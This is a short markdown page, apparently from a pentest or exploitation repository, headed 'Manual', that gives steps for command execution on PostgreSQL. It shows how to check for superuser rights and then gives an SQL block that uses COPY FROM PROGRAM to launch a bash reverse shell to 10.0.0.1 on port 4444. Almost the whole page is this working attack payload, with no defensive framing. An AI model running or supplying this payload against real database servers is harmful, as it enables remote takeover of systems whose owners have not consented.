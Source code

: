 # Manual

TODO: Replicate the methods by performing manual exploitation that is done in PostgreSQL

Ensure the database user has superuser permissions enabled.

```
postgres=# SELECT current_setting('is_superuser');
```

```SQL
DROP TABLE IF EXISTS cmd_exec;
CREATE TABLE cmd_exec(cmd_output text);
COPY cmd_exec FROM PROGRAM 'bash -c "bash -i >& /dev/tcp/10.0.0.1/4444 0>&1"';
SELECT * FROM cmd_exec;
DROP TABLE IF EXISTS cmd_exec;
```